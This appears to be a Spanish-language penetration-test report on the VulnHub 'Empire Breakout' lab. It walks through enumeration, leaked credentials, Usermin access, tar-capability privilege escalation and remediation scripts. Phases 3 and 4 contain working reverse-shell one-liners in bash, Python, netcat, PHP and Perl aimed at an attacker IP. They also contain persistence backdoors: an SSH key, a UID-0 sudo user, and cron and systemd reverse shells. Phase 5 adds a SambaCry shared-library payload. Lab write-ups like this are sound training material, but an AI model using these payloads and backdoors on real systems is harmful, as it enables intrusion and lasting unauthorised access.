


# Empire Breakout - Informe Profesional de Penetración

## Información del Proyecto

| **Campo** | **Valor** |
|-----------|-----------|
| **Proyecto** | Empire Breakout Security Assessment |
| **Cliente** | VulnHub Challenge Environment |
| **Sistema Objetivo** | 192.168.131.129 |
| **Tipo de Evaluación** | Black Box Penetration Test |
| **Metodología** | OWASP Testing Guide v4.2 + PTES |
| **Pebtester** | [Iceyami] |
| **Duración** | 45 minutos (tiempo de compromiso) |
| **Clasificación** | CONFIDENCIAL |

---

## Resumen Ejecutivo

### Hallazgos Críticos

Durante la evaluación de seguridad del sistema Empire Breakout, se identificaron **múltiples vulnerabilidades críticas** que permitieron el compromiso completo del servidor en aproximadamente 45 minutos. El sistema presenta una postura de seguridad **extremadamente deficiente** con exposición de credenciales, configuraciones peligrosas de permisos del sistema y gestión inadecuada de secretos.

### Impacto en el Negocio

- **🔴 CRÍTICO**: Control total del sistema obtenido
- **🔴 CRÍTICO**: Acceso completo a datos sensibles 
- **🔴 CRÍTICO**: Capacidad de modificar configuraciones del sistema
- **🔴 CRÍTICO**: Potencial interrupción de servicios

### Riesgo Global: **CRÍTICO (9.8/10)**

### Recomendaciones Prioritarias

1. **INMEDIATO**: Remover credenciales del código fuente web
2. **INMEDIATO**: Revisar y remediar configuraciones de capabilities
3. **INMEDIATO**: Eliminar archivos de backup con credenciales
4. **ALTA**: Implementar controles de acceso estrictos
5. **ALTA**: Establecer programa de hardening de sistema

---

## Metodología y Alcance

### Marco de Trabajo Utilizado

Esta evaluación siguió las mejores prácticas de la industria basadas en:

- **OWASP Web Security Testing Guide (WSTG) v4.2**
- **Penetration Testing Execution Standard (PTES)**  
- **NIST SP 800-115** - Technical Guide to Information Security Testing
- **OWASP Top 10** - Vulnerabilidades más críticas

### Fases de la Evaluación



### Alcance Técnico

| **Componente** | **Incluido** | **Detalles** |
|----------------|--------------|--------------|
| **Red** | ✅ | Escaneo de puertos y servicios |
| **Servicios Web** | ✅ | Apache HTTP Server |
| **Servicios SMB** | ✅ | Samba 4.6.2 |
| **Paneles Admin** | ✅ | Webmin/Usermin |
| **Sistema Operativo** | ✅ | Linux (Debian-based) |
| **Escalada de Privilegios** | ✅ | Análisis completo |

### Limitaciones

- Evaluación en entorno de laboratorio controlado
- No se realizaron pruebas de denegación de servicio
- No se evaluó la infraestructura de red circundante

---

## Configuración del Entorno de Pruebas

### Preparación del Workspace

```bash
# Crear directorio de trabajo organizado
mkdir -p ~/Desktop/vulnhub/{nmap,exploits,loot,screenshots}
cd ~/Desktop/vulnhub

# Variables de entorno
export TARGET_IP="192.168.131.129"
export ATTACKER_IP="192.168.0.11"
export PROJECT_NAME="empire_breakout"

# Verificar conectividad inicial
ping -c 4 $TARGET_IP
```

### Herramientas Utilizadas

| **Categoría** | **Herramientas** |
|---------------|------------------|
| **Reconocimiento** | nmap, enum4linux, smbclient |
| **Web Testing** | Browser Developer Tools, Burp Suite |
| **Decodificación** | decode.fr, CyberChef |
| **Explotación** | netcat, custom bash payloads |
| **Post-Explotación** | getcap, tar, su |

---

## Fase 1: Reconocimiento y Enumeración

### 1.1 Descubrimiento de Red

#### Verificación de Conectividad
```bash
# Test básico de conectividad
ping -c 4 $TARGET_IP

# Resultado esperado:
# 64 bytes from 192.168.131.129: icmp_seq=1 ttl=64 time=0.234 ms
```

### 1.2 Escaneo de Puertos

#### Escaneo Inicial Completo
```bash
# Escaneo completo con scripts y detección de versiones
nmap -sC -sV -p- --open -oN nmap/initial_scan $TARGET_IP

# Alternativas de escaneo:
nmap -A -T4 -p- $TARGET_IP                    # Agresivo y rápido
nmap -sS -sU -T4 -A -v $TARGET_IP            # TCP + UDP
nmap --script vuln $TARGET_IP                # Scripts de vulnerabilidades
```

#### Resultados del Escaneo
```
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.25 ((Debian))
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
20000/tcp open  http        MiniServ 1.830 (Usermin httpd)
```

#### Análisis de Servicios Identificados

| **Puerto** | **Servicio** | **Versión** | **Riesgo** | **Notas** |
|------------|--------------|-------------|------------|-----------|
| 80 | Apache HTTP | 2.4.25 | MEDIO | Servidor web principal |
| 139/445 | Samba SMB | 4.6.2 | ALTO | Compartición de archivos |
| 10000 | Webmin | 1.981 | CRÍTICO | Panel de administración |
| 20000 | Usermin | 1.830 | CRÍTICO | Panel de usuario |

### 1.3 Enumeración de Servicios Web

#### Análisis del Puerto 80
```bash
# Inspección manual del servidor web
curl -I http://$TARGET_IP
curl -s http://$TARGET_IP | head -20

# Fuzzing de directorios
gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirb/common.txt
dirbuster -u http://$TARGET_IP -l /usr/share/wordlists/dirb/big.txt

# Análisis con whatweb
whatweb http://$TARGET_IP

# Nikto para vulnerabilidades web
nikto -h http://$TARGET_IP
```

#### Descubrimiento Crítico en Código Fuente

**Método Manual:**
1. Navegador → F12 (Developer Tools)
2. Inspeccionar código fuente completo
3. Buscar comentarios HTML inusuales

**Código fuente revelador:**
```html
<!-- Don't worry this is safe to share with you, my access is encoded -->
<!-- ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++.>++++++++++ -->
```

#### Decodificación de Brainfuck
```bash
# Usando herramientas online:
# 1. https://www.decode.fr/brainfuck
# 2. https://gchq.github.io/CyberChef/

# Resultado decodificado: .2uqPEfj3D<P'a-3

# Guardamos la credencial
echo ".2uqPEfj3D<P'a-3" > loot/decoded_password.txt
```

### 1.4 Enumeración SMB

#### Enumeración con enum4linux
```bash
# Enumeración completa de SMB
enum4linux -a $TARGET_IP > loot/enum4linux_output.txt

# Análisis específico de usuarios
enum4linux -U $TARGET_IP
enum4linux -S $TARGET_IP  # Shares
enum4linux -P $TARGET_IP  # Password policy
```

#### Alternativas de Enumeración SMB
```bash
# smbclient - Listado de recursos
smbclient -L //$TARGET_IP -N

# smbmap - Mapeo de permisos
smbmap -H $TARGET_IP
smbmap -H $TARGET_IP -u '' -p ''

# crackmapexec
crackmapexec smb $TARGET_IP
crackmapexec smb $TARGET_IP -u '' -p '' --shares

# rpcclient - Enumeración RPC
rpcclient -U "" $TARGET_IP -N
# rpcclient $> enumdomusers
# rpcclient $> enumdomgroups
```

#### Usuario Identificado: `cyber`

### 1.5 Análisis de Paneles Administrativos

#### Webmin (Puerto 10000)
```bash
# Inspección SSL
openssl s_client -connect $TARGET_IP:10000

# Identificación de versión
curl -k https://$TARGET_IP:10000 | grep -i webmin

# Búsqueda de exploits conocidos
searchsploit webmin 1.981
```

#### Usermin (Puerto 20000)
```bash
# Análisis similar
curl -k https://$TARGET_IP:20000 | grep -i usermin

# Test de credenciales débiles
hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET_IP https-get /
```

---

## Fase 2: Análisis de Vulnerabilidades

### 2.1 Matriz de Vulnerabilidades Identificadas

| **ID** | **Vulnerabilidad** | **CVSS** | **Impacto** | **Explotabilidad** |
|--------|-------------------|----------|-------------|-------------------|
| **V001** | Credenciales en código fuente | 9.8 | CRÍTICO | ALTA |
| **V002** | Capabilities inseguras (tar) | 8.4 | ALTO | MEDIA |
| **V003** | Backup con credenciales root | 9.1 | CRÍTICO | ALTA |
| **V004** | Exposición paneles admin | 7.5 | ALTO | MEDIA |
| **V005** | Enumeración SMB habilitada | 5.3 | MEDIO | BAJA |

### 2.2 Análisis Detallado por Vulnerabilidad

#### V001: Credenciales Expuestas en Código Fuente

**CWE-798: Use of Hard-coded Credentials**

**Descripción Técnica:**
- Credenciales codificadas en Brainfuck en comentarios HTML
- Accesible públicamente sin autenticación
- Violación directa de OWASP A02:2021 - Cryptographic Failures

**Vectores de Explotación:**
```bash
# Método 1: Inspección manual
view-source:http://192.168.131.129

# Método 2: Scraping automatizado
curl -s http://$TARGET_IP | grep -A5 -B5 "encoded"

# Método 3: Burp Suite Intruder
# Configurar payload para buscar patrones de codificación
```

#### V002: Linux Capabilities Misconfiguration

**CWE-250: Execution with Unnecessary Privileges**

**Análisis de Capabilities:**
```bash
# Enumeración de capabilities del sistema
getcap -r / 2>/dev/null

# Resultado crítico:
# /home/cyber/tar cap_dac_read_search=ep

# Análisis del impacto
man 7 capabilities | grep -A5 CAP_DAC_READ_SEARCH
```

**Capabilities Peligrosas a Buscar:**
```bash
# Script de enumeración avanzada
cat << 'EOF' > scripts/capabilities_enum.sh
#!/bin/bash
echo "[+] Enumerating dangerous capabilities..."

dangerous_caps=(
    "cap_dac_read_search"
    "cap_dac_override" 
    "cap_sys_admin"
    "cap_setuid"
    "cap_setgid"
    "cap_sys_ptrace"
    "cap_sys_rawio"
)

for cap in "${dangerous_caps[@]}"; do
    echo "[*] Searching for $cap:"
    getcap -r / 2>/dev/null | grep -i $cap
done
EOF

chmod +x scripts/capabilities_enum.sh
```

---

## Fase 3: Explotación

### 3.1 Obtención de Acceso Inicial

#### Credenciales Identificadas
```bash
# Combinación de credenciales encontrada:
# Usuario: cyber (desde enum4linux)
# Password: .2uqPEfj3D<P'a-3 (desde código fuente)
```

#### Vectores de Acceso Probados

**1. Webmin (Puerto 10000) - FALLIDO**
```bash
# Intento de acceso
curl -k -d "user=cyber&pass=.2uqPEfj3D<P'a-3" \
     https://$TARGET_IP:10000/session_login.cgi
# Resultado: Authentication failed
```

**2. Usermin (Puerto 20000) - EXITOSO**
```bash
# Acceso manual vía navegador
# URL: https://192.168.131.129:20000
# Credenciales: cyber / .2uqPEfj3D<P'a-3
# Resultado: Login exitoso
```

#### Exploración del Panel Usermin

**Funcionalidades identificadas:**
- Mail → Gestión de correo electrónico
- Password → Cambio de contraseñas  
- **Command Shell** → Terminal web (CRÍTICO)

### 3.2 Establecimiento de Shell Estable

#### Configuración del Listener
```bash
# Terminal 1: Configurar listener
nc -lvnp 443

# Verificar puerto disponible
ss -tlnp | grep :443
```

#### Payloads de Shell Reversa

**Payload Principal (Bash):**
```bash
# Desde terminal web de Usermin
bash -i >& /dev/tcp/192.168.0.11/443 0>&1
```

**Payloads Alternativos:**
```bash
# Python (si disponible)
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Netcat tradicional
nc -e /bin/bash 192.168.0.11 443

# PHP (si existe servidor web con PHP)
php -r '$sock=fsockopen("192.168.0.11",443);exec("/bin/sh -i <&3 >&3 2>&3");'

# Perl
perl -e 'use Socket;$i="192.168.0.11";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Estabilización de Shell
```bash
# Una vez obtenida la shell reversa
python3 -c 'import pty; pty.spawn("/bin/bash")'

# O usando script
script /dev/null -c bash

# Configurar variables de entorno
export TERM=xterm
export SHELL=/bin/bash

# En la máquina atacante (Ctrl+Z para background)
stty raw -echo; fg
```

### 3.3 Enumeración Post-Explotación

#### Información del Sistema
```bash
# Información básica del sistema
whoami                    # cyber
id                       # uid=1000(cyber) gid=1000(cyber) groups=1000(cyber),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
uname -a                 # Kernel y arquitectura
cat /etc/os-release      # Distribución
ps aux                   # Procesos en ejecución
ss -tulpn               # Servicios de red
```

#### Enumeración de Privilegios
```bash
# Sudo permissions
sudo -l

# SUID binaries
find / -perm -4000 -type f 2>/dev/null

# GUID binaries  
find / -perm -2000 -type f 2>/dev/null

# World-writable files
find / -perm -002 -type f 2>/dev/null

# Capabilities (CRÍTICO)
getcap -r / 2>/dev/null

# Cron jobs
crontab -l
cat /etc/crontab
ls -la /etc/cron*

# Environment variables
env
```

#### Resultado Crítico: Capabilities
```bash
cyber@empire:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
```

### 3.4 Escalada de Privilegios vía Capabilities

#### Análisis de la Vulnerabilidad
```bash
# Verificar el binario tar
ls -la /home/cyber/tar
file /home/cyber/tar
ldd /home/cyber/tar

# Confirmar capabilities
getcap /home/cyber/tar
# Output: /home/cyber/tar cap_dac_read_search=ep
```

#### Búsqueda de Archivos Objetivo

**Ubicaciones típicas de archivos sensibles:**
```bash
# Shadow file
ls -la /etc/shadow

# SSH keys
find /home -name "*.key" -o -name "*_rsa" -o -name "authorized_keys" 2>/dev/null

# Backups importantes
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" 2>/dev/null | head -20

# Específico: directorio backups
ls -la /var/backups/
```

#### Descubrimiento del Archivo Crítico
```bash
cyber@empire:~$ ls -la /var/backups/
total 12
drwxr-xr-x  2 root root 4096 Oct 15 10:30 .
drwxr-xr-x 13 root root 4096 Oct 15 10:28 ..
-rw-------  1 root root   18 Oct 15 10:30 .old_pass.bak

# Intento de lectura directa (FALLIDO)
cyber@empire:~$ cat /var/backups/.old_pass.bak
cat: /var/backups/.old_pass.bak: Permission denied
```

#### Explotación de Capabilities

**Método 1: Extracción con tar**
```bash
# Crear archivo tar que incluya el archivo protegido
cd /home/cyber
./tar -cf backup.tar /var/backups/.old_pass.bak

# Extraer y leer
tar -xvf backup.tar
cat var/backups/.old_pass.bak
# Output: Ts&4&YurgtRX(=~h
```

**Métodos Alternativos:**
```bash
# Método 2: Lectura directa con dd (si tar no funciona)
./tar -cf /dev/stdout /var/backups/.old_pass.bak | tar -xvf -

# Método 3: Crear directorio temporal
mkdir -p /tmp/extract
cd /tmp/extract
/home/cyber/tar -xf /dev/stdin <<< "$(/home/cyber/tar -cf - /var/backups/.old_pass.bak)"
```

#### Escalada Final a Root
```bash
# Cambiar a usuario root
cyber@empire:~$ su root
Password: Ts&4&YurgtRX(=~h

# Verificar acceso root
root@empire:/home/cyber# whoami
root

# Estabilizar shell
root@empire:/home/cyber# script /dev/null -c bash
```

### 3.5 Obtención de Flags

#### User Flag
```bash
cyber@empire:~$ cat user.txt
[USER_FLAG_CONTENT]
```

#### Root Flag  
```bash
root@empire:~# cat /root/root.txt
[ROOT_FLAG_CONTENT]
```

---

## Fase 4: Post-Explotación y Persistencia

### 4.1 Enumeración Completa del Sistema Comprometido

#### Información del Sistema
```bash
# Información completa del kernel
uname -a
cat /proc/version
lscpu

# Distribución y versión
cat /etc/os-release
cat /etc/issue

# Usuarios del sistema
cat /etc/passwd | grep -E "/bin/(ba)?sh"
cat /etc/group

# Servicios en ejecución
systemctl list-units --type=service --state=running
ps auxf
```

#### Configuraciones Críticas
```bash
# SSH Configuration
cat /etc/ssh/sshd_config | grep -v "^#"

# Apache Configuration  
cat /etc/apache2/sites-enabled/000-default.conf
cat /etc/apache2/apache2.conf | grep -v "^#"

# Samba Configuration
cat /etc/samba/smb.conf | grep -v "^#"

# Webmin/Usermin Config
find /etc -name "*webmin*" -o -name "*usermin*" 2>/dev/null
cat /etc/webmin/miniserv.conf
```

### 4.2 Búsqueda de Datos Sensibles

```bash
# Archivos de configuración con posibles credenciales
find /etc -type f -name "*.conf" -exec grep -l "password\|pass\|pwd" {} \;

# Archivos de log con información sensible
find /var/log -type f -readable -exec grep -l "password\|login\|auth" {} \;

# Historial de comandos
find /home -name ".*history" -readable 2>/dev/null
cat /home/cyber/.bash_history

# Variables de entorno en procesos
cat /proc/*/environ 2>/dev/null | tr '\0' '\n' | grep -E "(PASS|KEY|TOKEN)"
```

### 4.3 Técnicas de Persistencia (Solo para Demostración)

**⚠️ IMPORTANTE: Estas técnicas son solo para demostración educativa**

#### SSH Key Backdoor
```bash
# Generar par de claves SSH
ssh-keygen -t rsa -b 4096 -f /tmp/backdoor_key -N ""

# Agregar clave pública a authorized_keys
mkdir -p /root/.ssh
cat /tmp/backdoor_key.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh

# Copia de seguridad de la clave privada
cp /tmp/backdoor_key ./root_backdoor_key
```

#### Usuario Backdoor
```bash
# Crear usuario con privilegios
useradd -ou 0 -g 0 backup_admin
echo "backup_admin:SecretPass123" | chpasswd

# Agregar a sudoers
echo "backup_admin ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

#### Cron Job Persistence
```bash
# Cron job que mantiene acceso
echo "*/10 * * * * root /bin/bash -i >& /dev/tcp/192.168.0.11/4444 0>&1" >> /etc/crontab

# Servicio personalizado
cat > /etc/systemd/system/backup.service << EOF
[Unit]
Description=Backup Service
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.11/5555 0>&1'
Restart=always

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backup.service
```

---

## Fase 5: Análisis de Vulnerabilidades Alternativas

### 5.1 Vectores de Ataque No Explorados

#### Análisis de Versiones de Software

**Apache 2.4.25 (Debian)**
```bash
# Búsqueda de vulnerabilidades conocidas
searchsploit apache 2.4.25
searchsploit apache debian

# CVEs potenciales
# - CVE-2017-7679: mod_mime buffer overread
# - CVE-2017-3167: Authentication bypass
# - CVE-2017-3169: mod_ssl NULL pointer dereference
```

**Samba 4.6.2**
```bash
# Exploits conocidos para Samba
searchsploit samba 4.6
msfconsole -q -x "search samba 4.6; exit"

# Vulnerabilidades críticas:
# - CVE-2017-7494: SambaCry RCE (Samba 3.5.0-4.6.4)
# - CVE-2017-12163: Server heap-memory disclosure  
```

**Webmin 1.981**
```bash
# Búsqueda específica de exploits
searchsploit webmin 1.98
msfconsole -q -x "search webmin; exit"

# CVEs relevantes:
# - CVE-2019-15107: Remote Code Execution
# - CVE-2020-35606: Privilege escalation
```

### 5.2 Explotación Alternativa: SambaCry

#### Verificación de Vulnerabilidad
```bash
# Verificar si es vulnerable a CVE-2017-7494
smbclient -L $TARGET_IP -N
echo "CVE-2017-7494 - SambaCry"

# Script de verificación
#!/bin/bash
echo "[+] Testing for SambaCry vulnerability..."
if smbclient //$TARGET_IP/tmp -N -c "put /tmp/test.so"; then
    echo "[!] Potentially vulnerable to SambaCry!"
else
    echo "[+] Not vulnerable to SambaCry"
fi
```

#### Exploit de SambaCry
```bash
# Metasploit module
msfconsole -q
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.168.131.129
set LHOST 192.168.0.11
exploit

# Exploit manual
# 1. Crear shared library maliciosa
cat > sambacry.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void _init() {
    system("bash -i >& /dev/tcp/192.168.0.11/4444 0>&1");
}
EOF

gcc -shared -fPIC -nostartfiles -o /tmp/sambacry.so sambacry.c
```

### 5.3 Enumeración SMB Avanzada

#### Técnicas Adicionales de Enumeración
```bash
# smbmap con credenciales
smbmap -H $TARGET_IP -u cyber -p '.2uqPEfj3D<P'"'"'a-3'

# Enumeración de RPC
rpcclient -U "cyber%'.2uqPEfj3D<P'a-3'" $TARGET_IP
rpcclient $> srvinfo
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> netshareenum

# Montaje de shares
mkdir -p /mnt/target_smb
mount -t cifs //$TARGET_IP/share /mnt/target_smb -o username=cyber,password='.2uqPEfj3D<P'"'"'a-3'
```

### 5.4 Web Application Security Testing

#### Fuzzing Avanzado de Directorios
```bash
# Gobuster con múltiples wordlists
gobuster dir -u http://$TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/common.txt
gobuster dir -u http://$TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
gobuster dir -u http://$TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

# ffuf para fuzzing rápido
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://$TARGET_IP/FUZZ

# wfuzz con filtros
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/common.txt \
      --hc 404 http://$TARGET_IP/FUZZ
```

#### Análisis de Headers y Cookies
```bash
# Análisis completo de headers HTTP
curl -I http://$TARGET_IP
curl -v http://$TARGET_IP

# Nikto scan completo
nikto -h http://$TARGET_IP -C all

# Whatweb para fingerprinting
whatweb -a 3 http://$TARGET_IP
```

---

## Análisis de Riesgos y Impacto

### Matriz de Riesgo CVSS 3.1

| **Vulnerabilidad** | **Base Score** | **Temporal** | **Environmental** | **Severidad** |
|-------------------|----------------|--------------|-------------------|---------------|
| **V001** - Credenciales en código fuente | 9.8 | 9.5 | 9.1 | **CRÍTICO** |
| **V002** - Capabilities inseguras | 8.4 | 8.1 | 7.8 | **ALTO** |
| **V003** - Backup con credenciales root | 9.1 | 8.8 | 8.5 | **CRÍTICO** |
| **V004** - Exposición paneles admin | 7.5 | 7.2 | 6.9 | **ALTO** |
| **V005** - Enumeración SMB | 5.3 | 5.0 | 4.7 | **MEDIO** |

### Análisis Detallado CVSS 3.1

#### V001: Credenciales Expuestas (CVSS: 9.8)
```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:F/RL:O/RC:C
```
- **Vector de Acceso**: Red (AV:N)
- **Complejidad**: Baja (AC:L)  
- **Privilegios Requeridos**: Ninguno (PR:N)
- **Interacción Usuario**: Ninguna (UI:N)
- **Impacto**: Confidencialidad, Integridad y Disponibilidad ALTA

#### V002: Linux Capabilities (CVSS: 8.4)
```
CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H/E:F/RL:W/RC:C
```
- **Vector de Acceso**: Local (AV:L)
- **Privilegios Requeridos**: Bajos (PR:L)
- **Alcance**: Sin cambio (S:U)
- **Explotabilidad**: Funcional (E:F)

### Impacto en el Negocio

#### Confidencialidad
- **🔴 CRÍTICO**: Acceso completo a archivos del sistema
- **🔴 CRÍTICO**: Exposición de credenciales de administrador
- **🔴 CRÍTICO**: Capacidad de leer cualquier archivo mediante capabilities

#### Integridad  
- **🔴 CRÍTICO**: Modificación de configuraciones del sistema
- **🔴 CRÍTICO**: Instalación de backdoors y malware
- **🔴 CRÍTICO**: Alteración de logs y evidencias

#### Disponibilidad
- **🔴 CRÍTICO**: Capacidad de interrumpir servicios críticos
- **🔴 CRÍTICO**: Denegación de servicio mediante sobrecarga de recursos
- **🔴 CRÍTICO**: Corrupción de datos y sistemas

---

## Técnicas de Mitigación y Remediación

### Mitigaciones Inmediatas (0-24 horas)

#### 1. Remover Credenciales del Código Fuente
```bash
# 1. Backup del archivo actual
cp /var/www/html/index.html /var/www/html/index.html.bak.$(date +%Y%m%d)

# 2. Limpiar código fuente
sed -i '/Don'\''t worry this is safe/d' /var/www/html/index.html
sed -i '/++++++++++\[/d' /var/www/html/index.html

# 3. Verificar limpieza
grep -i "password\|pass\|encoded" /var/www/html/index.html

# 4. Implementar variables de entorno
# Crear archivo de configuración seguro
cat > /etc/webconfig/secrets.conf << EOF
# Configuración segura - Solo lectura root
ADMIN_USER=cyber
ADMIN_PASS_HASH=\$6\$rounds=10000\$salt\$hash
EOF

chmod 600 /etc/webconfig/secrets.conf
chown root:root /etc/webconfig/secrets.conf
```

#### 2. Remediar Capabilities Inseguras
```bash
# 1. Backup de capabilities actuales
getcap -r / 2>/dev/null > /var/log/capabilities_backup.txt

# 2. Remover capability peligrosa
setcap -r /home/cyber/tar

# 3. Si tar es requerido, usar capability más específica
# Solo si absolutamente necesario:
# setcap cap_dac_read_search+ep /usr/bin/tar

# 4. Auditar todas las capabilities
audit_capabilities() {
    echo "[+] Auditando capabilities del sistema..."
    dangerous_caps=("cap_dac_read_search" "cap_dac_override" "cap_sys_admin" "cap_setuid")
    
    for cap in "${dangerous_caps[@]}"; do
        echo "[*] Buscando $cap:"
        getcap -r / 2>/dev/null | grep -i "$cap" || echo "    No encontrado"
    done
}

audit_capabilities
```

#### 3. Eliminar Archivos de Backup Inseguros
```bash
# 1. Identificar todos los backups con credenciales
find / -name "*.bak" -o -name "*.backup" -o -name "*.old" 2>/dev/null | \
    xargs grep -l "password\|pass\|key" 2>/dev/null

# 2. Remover archivo específico
shred -vfz -n 3 /var/backups/.old_pass.bak

# 3. Implementar gestión segura de credenciales
# Instalar y configurar HashiCorp Vault o similar
apt-get update && apt-get install -y vault

# 4. Configurar rotación automática de contraseñas
cat > /etc/cron.weekly/password_rotation << 'EOF'
#!/bin/bash
# Rotación automática de contraseñas semanalmente
NEW_PASS=$(openssl rand -base64 32)
echo "root:$NEW_PASS" | chpasswd
echo "Password rotated: $(date)" >> /var/log/password_rotation.log
EOF

chmod +x /etc/cron.weekly/password_rotation
```

#### 4. Asegurar Paneles Administrativos
```bash
# 1. Restringir acceso por IP
cat >> /etc/webmin/miniserv.conf << EOF
allow=192.168.1.0/24,10.0.0.0/8,127.0.0.1
deny=all
EOF

cat >> /etc/usermin/miniserv.conf << EOF
allow=192.168.1.0/24,10.0.0.0/8,127.0.0.1  
deny=all
EOF

# 2. Habilitar 2FA en Webmin
echo "twofactor_provider=googleauth" >> /etc/webmin/config

# 3. Configurar HTTPS obligatorio con certificados válidos
# Generar certificado SSL/TLS
openssl req -new -x509 -days 365 -nodes -out /etc/webmin/miniserv.pem \
    -keyout /etc/webmin/miniserv.pem -subj "/C=ES/ST=Madrid/L=Madrid/O=Company/CN=webmin.local"

# 4. Reiniciar servicios
systemctl restart webmin
systemctl restart usermin
```

### Mitigaciones a Corto Plazo (1-7 días)

#### 1. Implementar Hardening del Sistema
```bash
# Script de hardening automatizado
cat > /root/system_hardening.sh << 'EOF'
#!/bin/bash

echo "[+] Iniciando hardening del sistema..."

# 1. Actualizar sistema
apt-get update && apt-get upgrade -y

# 2. Configurar firewall
ufw --force enable
ufw default deny incoming
ufw default allow outgoing
ufw allow ssh
ufw allow 80/tcp
ufw allow 443/tcp
# Solo permitir Webmin desde redes internas
ufw allow from 192.168.0.0/16 to any port 10000
ufw allow from 192.168.0.0/16 to any port 20000

# 3. Deshabilitar servicios innecesarios
systemctl disable samba smbd nmbd
systemctl stop samba smbd nmbd

# 4. Configurar SSH seguro
sed -i 's/#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
sed -i 's/#PasswordAuthentication yes/PasswordAuthentication no/' /etc/ssh/sshd_config
echo "AllowUsers cyber" >> /etc/ssh/sshd_config
systemctl restart sshd

# 5. Configurar fail2ban
apt-get install -y fail2ban
systemctl enable fail2ban
systemctl start fail2ban

# 6. Auditar SUID/SGID binaries
find / -perm -4000 -type f 2>/dev/null > /var/log/suid_audit.log
find / -perm -2000 -type f 2>/dev/null > /var/log/sgid_audit.log

# 7. Configurar logging avanzado
apt-get install -y auditd
systemctl enable auditd
cat >> /etc/audit/audit.rules << EOL
# Monitor file access
-w /etc/passwd -p wa -k passwd_changes
-w /etc/shadow -p wa -k shadow_changes  
-w /var/log/auth.log -p wa -k auth_log
-w /home/cyber/.ssh/ -p wa -k ssh_changes
EOL

systemctl restart auditd

echo "[+] Hardening completado!"
EOF

chmod +x /root/system_hardening.sh
./system_hardening.sh
```

#### 2. Implementar Monitoreo de Seguridad
```bash
# Instalar OSSEC para detección de intrusos
wget -q -O - https://updates.atomicorp.com/installers/atomic | sudo bash
apt-get install -y ossec-hids

# Configuración básica de OSSEC
cat > /var/ossec/etc/ossec.conf << 'EOF'
<ossec_config>
  <global>
    <email_notification>yes</email_notification>
    <email_to>admin@company.com</email_to>
    <smtp_server>localhost</smtp_server>
    <email_from>ossec@company.com</email_from>
  </global>
  
  <rules>
    <include>rules_config.xml</include>
    <include>pam_rules.xml</include>
    <include>sshd_rules.xml</include>
    <include>telnetd_rules.xml</include>
    <include>syslog_rules.xml</include>
    <include>arpwatch_rules.xml</include>
    <include>symantec-av_rules.xml</include>
    <include>symantec-ws_rules.xml</include>
    <include>pix_rules.xml</include>
    <include>named_rules.xml</include>
    <include>smbd_rules.xml</include>
    <include>vsftpd_rules.xml</include>
    <include>pure-ftpd_rules.xml</include>
    <include>proftpd_rules.xml</include>
    <include>ms_ftpd_rules.xml</include>
    <include>ftpd_rules.xml</include>
    <include>hordeimp_rules.xml</include>
    <include>roundcube_rules.xml</include>
    <include>wordpress_rules.xml</include>
    <include>cimserver_rules.xml</include>
    <include>vpopmail_rules.xml</include>
